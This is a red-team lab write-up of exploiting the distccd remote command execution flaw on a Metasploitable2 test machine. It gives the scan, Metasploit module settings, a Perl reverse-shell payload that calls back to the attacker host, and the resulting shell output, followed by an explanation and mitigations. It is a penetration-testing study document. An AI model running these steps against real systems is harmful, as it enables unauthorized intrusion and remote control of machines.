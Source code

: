 
# 🧨 Attack Simulation 12: Remote Code Execution via DistCC (CVE-2002-0845)

In this simulation, I exploited a **remote command execution vulnerability** in the `distccd` service running on **Metasploitable2**. This is a classic example of abusing a misconfigured or exposed service to gain shell access.

---

## 🧠 What Is DistCC?

`distcc` is a tool used to distribute C/C++ compilation tasks across multiple machines for performance. It runs a daemon (`distccd`) that listens on a TCP port (default: **3632**) to accept jobs.

✅ **The Problem:** When misconfigured, `distccd` can execute arbitrary shell commands sent in the compilation job — allowing attackers to **execute remote commands** without authentication.

---

## ⚙️ Environment

| Role     | Machine         | IP Address      |
|----------|------------------|-----------------|
| Attacker | Kali Linux       | `192.168.1.30`  |
| Victim   | Metasploitable2  | `192.168.1.155` |

---

## 🔍 Step 1: Port Scanning and Service Discovery

```bash
nmap -sV -p- 192.168.1.155
```

🔎 Output (excerpt):
```
3632/tcp open  distccd  DistCC Daemon
```

![Nmap Results](../../Screenshots/attack-simulation-12/nmap.png)

*Figure 1: Nmap Results*

🧠 **distccd** was exposed on port `3632` — a known vector for remote code execution if left unprotected.

---

## 🎯 Step 2: Launching the Exploit (Metasploit)

Open Metasploit:
```bash
msfconsole
```

Search for the exploit:
```bash
search distccd
```

Use the appropriate module:
```bash
use exploit/unix/misc/distcc_exec
```

Set the target and attacker IPs:
```bash
set RHOSTS 192.168.1.155
set LHOST 192.168.1.30
set LPORT 4444
```

Set a valid reverse shell payload:
```bash
set PAYLOAD cmd/unix/reverse_perl
```

Launch the exploit:
```bash
run
```

✅ Metasploit Output:
```
[*] Started reverse TCP handler on 192.168.1.30:4444
[*] Command shell session 1 opened
```

---

## 🧪 Step 3: Verifying Shell Access

Once the reverse shell connected, I ran:

```bash
whoami
```

Output:
```
daemon
```

![Exploitation](../../Screenshots/attack-simulation-12/exploitation.png)

*Figure 2: Exploitation*

This confirms that I had **remote shell access** as the `daemon` user (a low-privileged user).

---

## 🔍 Technical Explanation

### ✅ How the Exploit Works

- `distccd` accepts and compiles jobs from remote users.
- The exploit sends a "fake" compile job with **shell commands** instead of code.
- These commands are executed on the server by the `distccd` daemon.

### ✅ How the Payload Works

- `cmd/unix/reverse_perl` is a simple **Perl one-liner** reverse shell.
- It tells the victim to connect back to the attacker's IP on port `4444` and bind a shell to it.

---

## 🔐 Security Implications

- **Unauthenticated RCE**: The attacker doesn't need credentials.
- **Easy to exploit**: Works reliably on vulnerable versions of `distccd`.
- **Remote shell**: The attacker can now upload tools, enumerate the machine, or escalate privileges.

---

## 🛡️ Mitigation Strategies

- 🔒 **Firewall** unused ports like 3632 (e.g., `iptables`, `ufw`)
- 🚫 Do not expose `distccd` to the internet
- ✅ Run `distccd` in secure mode or containerized environments
- 🔄 Regularly patch software and audit running services

---

## ✅ Summary

| Step | Action                        | Result                  |
|------|-------------------------------|--------------------------|
| 1    | Scanned target                | Found port 3632 open     |
| 2    | Used Metasploit exploit       | Got reverse shell        |
| 3    | Verified shell access         | `daemon` user shell      |

---

## 📌 Conclusion

This simulation demonstrates how **misconfigured network services** like `distccd` can lead to **remote shell access**. As part of my red team simulations, this adds a critical example of how **authenticated access isn't always needed** to compromise systems.

🔴 Always monitor exposed ports and run services in hardened, least-privileged configurations.